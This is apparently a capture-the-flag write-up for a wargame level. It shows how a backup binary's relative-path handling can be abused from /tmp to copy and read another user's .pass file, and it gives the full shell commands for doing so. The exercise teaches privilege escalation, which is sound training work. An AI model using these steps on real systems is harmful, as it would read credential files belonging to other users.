 # Level08

We have a program that creates a backup of the file we pass it as an argument in the ./backup folder. We have permissions to read this backup.

The aim is to pass it the path to level09's .pass as an argument, in order to read its contents, but we've run into a problem:

```c
$ ./level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
```
Here, we understand that the program simply concatenates two strings: "./backup" + argument. And the backup folder does not contain the /home/users folders...

To fix this, we'd have to create them in the backup folder, but we don't have the permissions...
```sh
$ mkdir -p ./backups/home/users/level09
mkdir: cannot create directory `./backups/home': Permission denied
```
Unfortunately, the backup folder is always accessed via a relative path which depends on the directory in which the program is run.

All you have to do is move to /tmp/ to create your own folder structure.

```sh
$ cd /tmp/
$ mkdir -p backups/home/users/level09
$ ~/level08 /home/users/level09/.pass
$ cat backups/home/users/level09/.pass
```